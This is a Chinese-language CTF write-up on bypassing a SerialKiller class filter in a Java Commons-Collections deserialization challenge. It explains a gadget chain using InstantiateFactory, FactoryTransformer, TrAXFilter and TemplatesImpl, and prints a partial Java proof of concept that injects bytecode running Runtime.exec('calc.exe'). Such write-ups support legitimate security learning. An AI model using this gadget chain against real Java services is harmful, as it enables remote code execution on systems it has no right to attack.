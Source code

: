 # 前言

早就根据网上的文章复现了CC1，但是没去研究过关于这个绕过的，最近打MRCTF看到他把之前用到的transformer这些东西都过滤，都不知道怎么办，后面看W&M的大佬们的wp，他们用了一些其他的类来做到最后的命令执行

过滤的类

![image-20220428195620691](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220428195620691.png)

他这里是通过serialkiller来过滤的，这个东西的话其实是可以用JRMP反序列化对实现一个对应绕过的，具体可以参照`DDCTF2019 再来一杯java`

但是题目是不出网的，就打不通

# Bypass

这里可以看到主要是ban掉的一些之前见过的transformer类，对后面的TemplatesImpl加载字节码并没有相应的过滤，这里看师傅wp提到的就是通过`InstantiateFactory`和`FactoryTransformer`类来实现一个绕过，我就去看了一下，发现确实也有一个和`InstantiateTransformer`相似的实例化一个类的操作，然后就可以去调用TrAXFilter类的构造器，接下来就和CC3 是一样的了

这里我就拿CC5的入口点（因为是通杀的）和这里拼接一下拿到了下面这个poc

```
package NewCC;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Factory;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class Newcc {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] bytes = STU.toBytecode();
        byte[][] targetbytes = new byte[][]{bytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFiledValue(templates,"_bytecodes",targetbytes);
        setFiledValue(templates,"_name","DawnT0wn");
```
